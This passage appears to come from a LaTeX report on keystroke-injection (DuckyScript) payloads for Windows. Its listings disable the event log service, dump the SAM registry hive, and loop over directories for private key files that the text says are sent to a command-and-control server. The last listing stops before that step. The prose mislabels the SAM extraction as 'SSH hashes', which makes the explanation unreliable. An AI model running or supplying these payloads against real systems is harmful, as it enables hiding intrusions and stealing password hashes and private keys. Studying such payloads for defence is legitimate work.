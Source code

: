 \begin{lstlisting}[caption={Exceprt: disable Windows Event Logging through PowerShell}, captionpos=b]
STRINGLN Stop-Service -Name "eventlog"
DELAY 200
STRINGLN Set-Service -Name "eventlog" -StartupType Disabled
DELAY 300
STRINGLN exit
\end{lstlisting}


\subsubsection{Extract SSH hashes}

Hash's associated keys, subkeys, and values make up a hive that can be exfiltrated from the Windows system by storing it in a file and sending it to a command and control (C\&C) server. \\
Once admin privileges on a terminal have been secured, this is a straightforward process. 


 \begin{lstlisting} [caption={Exceprt: extract and SSH files}, captionpos=b]
 STRINGLN reg save HKLM\SAM C:\sam.hiv
 \end{lstlisting}

\subsubsection{Extract Private Key Files}

File extensions can be searched with the help of PowerShell. For that reason, this extraction payload will run a simple loop on a predefined (default) path to a directory that is expected to contain private key files and send the discovered files to a command server. 

\begin{lstlisting}[caption={Exceprt: search for private key files by their file extension}, captionpos=b]
DUCKY_LANG DE_CH
DELAY 50
GUI r
DELAY 200
STRINGLN powershell.exe
DELAY 2500
STRINGLN $entryPoint = "your/path"
DELAY 200
STRINGLN $extensions = @(".key", ".pgp", ".gpg", ".ppk", ".p12", ".pem", ".pfx", ".cer", ".p7b", ".asc")
DELAY 200
STRINGLN Get-ChildItem -Path $entryPoint -Recurse | ForEach-Object {
DELAY 200
STRINGLN     if ($_.PSIsContainer) {
DELAY 200
STRINGLN         return
DELAY 200
STRINGLN     }
DELAY 200
STRINGLN     if ($extensions -contains $_.Extension) {
DELAY 200
\end{lstlisting}


\subsubsection{Steal Web Session Cookies}

